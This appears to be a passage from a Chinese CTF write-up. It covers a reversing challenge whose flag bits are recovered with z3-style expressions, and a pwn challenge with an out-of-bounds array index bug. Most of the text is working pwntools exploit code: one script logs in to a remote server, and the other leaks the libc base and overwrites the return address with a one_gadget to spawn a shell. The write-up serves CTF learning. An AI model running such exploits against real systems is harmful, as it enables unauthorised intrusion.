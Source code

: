 ```
Concat(0,
       Extract(7, 7, flag_4),
       ~Extract(6, 2, flag_4),
       Extract(1, 0, flag_4)) +
Concat(0,
       Extract(7, 7, flag_5),
       ~Extract(6, 2, flag_5),
       Extract(1, 1, flag_5),
       ~Extract(0, 0, flag_5))

```

猜测angr和pin也能做，打算看一波dalao的wp后自己去解一下密码。  

这边有个坑，最后nc服务器输入用户名密码服务器没有回显，需要在用户名和密码中间加截断。

```python
from pwn import *
p=remote('39.106.224.151',10001)
p.recvuntil('Username:')
p.send('badrer12\n'+'xyz{|}')
p.interactive()
```



##  Pwn1 your_Pwn

一道保护全开然鹅却有直接任意地址写&泄露的鸡肋题，漏洞在于数组下标越界，这边贴下exp:

```python
from pwn import *
p=process('./pwn')
elf=ELF('./pwn')
libc=ELF('./libc.so.6')
p.recvuntil('name:')
p.sendline('xdw')

def leakAndWrite(idx,content):
    p.recvuntil('input index\n')
    p.sendline(str(idx))
    p.recvuntil('now value(hex) ')
    addr=p.recvuntil('\n').strip()
    p.recvuntil('input new value\n')
    p.sendline(str(content))
    return addr


addr=leakAndWrite(637,0)[-2::]
addr+=leakAndWrite(636,0)[-2::]
addr+=leakAndWrite(635,0)[-2::]
addr+=leakAndWrite(634,0)[-2::]
addr+=leakAndWrite(633,0)[-2::]
addr+=leakAndWrite(632,0)[-2::]
libc_base=int(addr,16)-libc.symbols['__libc_start_main']-240
success('libc_base:'+hex(libc_base))
gadget=0x45216+libc_base
gadget=hex(gadget)
print gadget
#success('gadget:'+hex(gadget))
#gdb.attach(p)
print gadget[2:4]
leakAndWrite(344,int(gadget[12:14],16))
leakAndWrite(345,int(gadget[10:12],16))
leakAndWrite(346,int(gadget[8:10],16))
leakAndWrite(347,int(gadget[6:8],16))
```